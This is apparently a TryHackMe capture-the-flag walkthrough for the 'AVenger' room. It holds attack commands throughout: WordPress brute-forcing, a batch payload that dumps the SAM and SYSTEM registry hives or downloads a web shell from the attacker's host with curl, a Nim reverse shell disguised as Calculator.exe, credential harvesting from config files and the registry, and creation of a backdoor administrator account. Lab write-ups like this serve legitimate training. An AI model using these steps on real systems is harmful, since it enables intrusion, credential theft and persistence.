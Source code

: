 # AVenger

**Room Link:** [https://tryhackme.com/r/room/avenger](https://tryhackme.com/r/room/avenger)

**Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (978).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (984).png" alt=""><figcaption></figcaption></figure>



### **TCP/80 - HTTP** <a href="#tcp-80-http" id="tcp-80-http"></a>

**Find Pages**

There were too many 404 and 403 in the scan so I changed to ffuf to ignore them.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

**Kali**

```
ffuf -u http://$VICTIM/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```

<figure><img src="../../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>





The gift folder takes us to avenger.tryhackme

<figure><img src="../../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>



**Add hostname to host file**

**Kali**

```
echo $VICTIM avenger.tryhackme  >> /etc/hosts
cat /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ffuf -u http://avenger.tryhackme/gift/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```





**Kali**

```
 wpscan --url http://avenger.tryhackme/gift --enumerate p
```

<figure><img src="../../.gitbook/assets/image (987).png" alt=""><figcaption></figcaption></figure>

**Bruteforce admin page**

**Kali**

```
wpscan --url http://avenger.tryhackme/gift --passwords /usr/share/wordlists/rockyou.txt
```



## Initial Shell

<figure><img src="../../.gitbook/assets/image (988).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/flozz/p0wny-shell.git
cd p0wny-shell/ 
subl exploit.bat
```

**exploit.bat**

<pre><code><strong>@echo off
</strong>
:: Check if the current user is NT AUTHORITY\SYSTEM
whoami /groups | find "S-1-5-18" > nul

if %errorlevel% equ 0 (
    :: Run commands for NT AUTHORITY\SYSTEM
    reg.exe save HKLM\SYSTEM C:\xampp\htdocs\system.bak
    reg.exe save HKLM\SAM C:\xampp\htdocs\sam.bak
) else (
    :: Run commands for other users
    curl http://$KALI:82/shell.php -o C:\xampp\htdocs\shell.php
)
</code></pre>

I tried bypassing the file type restriction with the shell above, I could see the bat file running by seeing that it try to grab the shell.php file but I couldn't find a place to save the file where I could also see it on the website.

**Kali**

```
python2 -m SimpleHTTPServer 82
```

<figure><img src="../../.gitbook/assets/image (989).png" alt=""><figcaption></figcaption></figure>

Nim reverse shell worked because they accept exe files&#x20;

**Kali**

<pre><code>git clone https://github.com/Sn1r/Nim-Reverse-Shell.git
cd Nim-Reverse-Shell/
<strong>apt install mingw-w64 -y
</strong></code></pre>

**Kali**

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

**Kali**

```
subl rev_shell.nim
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
/root/.nimble/bin/nim c -d:mingw  --app:gui --opt:speed -o:Calculator.exe rev_shell.nim
```

<figure><img src="../../.gitbook/assets/image (993).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (994).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Esclation**&#x20;

Found some credentials.

**Victim**

```
type C:\xampp\htdocs\gift\wp-config.php
```

<figure><img src="../../.gitbook/assets/image (995).png" alt=""><figcaption></figcaption></figure>

From my computer I could access the mysql.

**Kali**

```
apt install mysql-client-core-5.7   
mysql -h$VICTIM -ugift -pSurpriseMF
```

I was able to find a password but couldn't crack it&#x20;

**Kali(mysql)**

```
select * from mysql -h$VICTIM -ugift -pSurpriseMF
use gift;
show tables;
select * from wp_users;
```

<figure><img src="../../.gitbook/assets/image (992).png" alt=""><figcaption></figcaption></figure>

I found a password

**Victim**

```
reg query HKLM /f password /t REG_SZ /s
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
remmina
Username: hugo
Password: SurpriseMF123!
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can run a administrator shell from the GUI

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
net user backdoor pass!123 /add
net localgroup Administrators "Remote Desktop Users"  backdoor /add
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v forceguest /t reg_dword /d 0 /f
```



**Kali**

```
remmina
Username: backdoor 
Password: pass!123
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
